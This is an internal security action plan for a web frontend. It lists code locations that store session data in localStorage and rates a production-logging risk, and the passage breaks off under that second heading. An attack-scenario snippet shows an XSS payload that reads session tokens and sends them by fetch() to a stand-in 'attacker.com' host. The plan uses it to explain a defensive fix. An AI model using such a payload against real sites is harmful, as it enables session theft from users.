 # Frontend Security Vulnerabilities - Critical Action Plan

**Date**: June 26, 2025  
**Priority**: P0 - CRITICAL SECURITY ISSUES  
**Status**: URGENT - Production Deploy Blocker  

## 🚨 Executive Summary

While backend authentication has been successfully implemented, **CRITICAL FRONTEND SECURITY VULNERABILITIES** remain that expose the system to session hijacking, data theft, and information leakage. These must be resolved before any production deployment.

## 🔴 CRITICAL FRONTEND VULNERABILITIES

### 1. localStorage Session Storage Vulnerability
**Severity**: CRITICAL (CVSS 9.5)  
**Impact**: Complete session compromise via XSS

#### Current Vulnerable Code Locations:
```typescript
// src/services/IPFSContentOrchestrator.ts:530, 758
localStorage.setItem('starcom-content-registry', JSON.stringify(data));
const stored = localStorage.getItem('starcom-content-registry');

// src/services/adaptiveInterfaceService.ts:656, 672  
localStorage.setItem(this.storageKey, JSON.stringify({...}));
const saved = localStorage.getItem(this.storageKey);

// src/services/UnifiedIPFSNostrService.ts:817, 835
localStorage.setItem('starcom-unified-content', JSON.stringify(data));
const stored = localStorage.getItem('starcom-unified-content');

// Multiple services storing sensitive session data
// Any XSS attack can steal all stored authentication data
```

#### Attack Scenario:
```javascript
// Attacker XSS payload steals all session data
const sessionData = localStorage.getItem('siws-session');
const authData = localStorage.getItem('starcom-content-registry');
// Exfiltrate to attacker server
fetch('https://attacker.com/steal', {
  method: 'POST',
  body: JSON.stringify({sessionData, authData})
});
```

### 2. Production Logging Data Exposure  
**Severity**: CRITICAL (CVSS 8.8)  
**Impact**: Sensitive data leakage in production
